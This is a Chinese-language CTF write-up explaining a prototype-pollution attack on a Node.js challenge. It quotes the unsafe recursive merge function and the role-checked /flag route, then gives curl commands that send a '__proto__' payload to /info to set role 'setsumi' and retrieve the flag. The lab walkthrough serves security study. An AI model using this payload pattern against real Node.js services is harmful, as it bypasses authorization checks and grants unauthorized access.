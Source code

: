 查看源码，`index.js`里头有明显的`merge`构造

```js
const updateInfo = (dest, src) => {
    for (const key in src) {
        if (
            key in dest && typeof dest[key] === "object" &&
            typeof src[key] === "object"
        ) {
            updateInfo(dest[key], src[key]);
        } else {
            dest[key] = src[key];
        }
    }
};
```

要构造原型链污染，目标是把`/flag`路由里头的`user.role`污染成"setsumi"

```js
app.get("/flag", (req, res) => {
    if (!req.session.loggedIn) {
        res.redirect("/login");
        return;
    }

    if (req.session.user.role === "setsumi") {
        res.render("flag", { flag: process.env.FLAG });
        return;
    }

    res.render("flag", { error: "You are not setsumi!" });
});
```

`user`的构造位置在`/register`路由里头

```js
app.post("/register", (req, res) => {
    const { username, password } = req.body;
    if (users[username]) {
        res.render("register", { error: "Username already exists" });
        return;
    }

    users[username] = { username, password }; // 注意这一行
    res.render("login", { success: "User registered successfully" });
});
```

于是我们往`Object`原型里加个值为"setsumi"的`role`字段就能过鉴权，入口在`/info`路由

```shell
curl 'http://localhost:8080/info' -X POST -H 'Content-Type: application/x-www-form-urlencoded' -H 'Cookie: <cookie>' --data-raw 'info={ "bio": "111", "age": "222", "__proto__": { "role": "setsumi" }}'
curl -s 'http://localhost:8080/flag' -H 'Cookie: <cookie>' | grep Spirit
```

![[Pasted image 20241026212651.png]]
